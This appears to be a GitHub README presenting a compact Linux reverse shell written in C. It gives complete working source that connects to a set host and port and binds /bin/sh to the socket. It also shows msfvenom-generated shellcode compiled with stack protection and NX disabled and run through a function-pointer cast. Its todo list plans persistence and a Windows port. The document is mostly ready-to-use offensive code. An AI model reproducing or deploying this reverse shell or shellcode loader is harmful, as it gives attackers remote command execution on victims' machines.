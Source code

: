 # compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.





:warning: to myself:  update ALL reverse shells (gist, git, codes, code blocks, ....)  :warning:






### todo:
- [x] (50/100 done) `adding shellcode execution (with a short & neat guide how to get shellcode without using radare2 or the classical ghidra or metasploit utils)`
- (10/100) Windows version(on going!)
- persistence mechanism
- GIST with UPDATES



### Sources:
- stack overflow
- 



### Only reverse shell

https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
```
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}
```



## Addon 1: SHELLCODE EXECUTION

```
// gcc lin_1.c -o L1 -fno-stack-protector -z execstack -no-pie   -g
//  //  
//  msfvenom -p linux/x64/exec cmd="echo ABC \&\& echo XYZ" -f c -v sh_1
//  [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
//  [-] No arch selected, selecting arch: x64 from the payload
//  No encoder specified, outputting raw payload
//  Payload size: 57 bytes
//  Final size of c file: 265 bytes
//  unsigned char sh_1[] = 
//  "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
//  "\x66\x68\x2d\x63\x54\x5e\x52\xe8\x15\x00\x00\x00\x65\x63\x68"
//  "\x6f\x20\x41\x42\x43\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x58"
//  "\x59\x5a\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05";
//  //  

#include <stdio.h>
#include <unistd.h>

int main(){
  unsigned char sh_1[] = 
  "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
  "\x66\x68\x2d\x63\x54\x5e\x52\xe8\x15\x00\x00\x00\x65\x63\x68"
  "\x6f\x20\x41\x42\x43\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x58"
  "\x59\x5a\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05";
// (*(void(*)())XXX)();
(*(void(*)())sh_1)();
return 0;
}
```







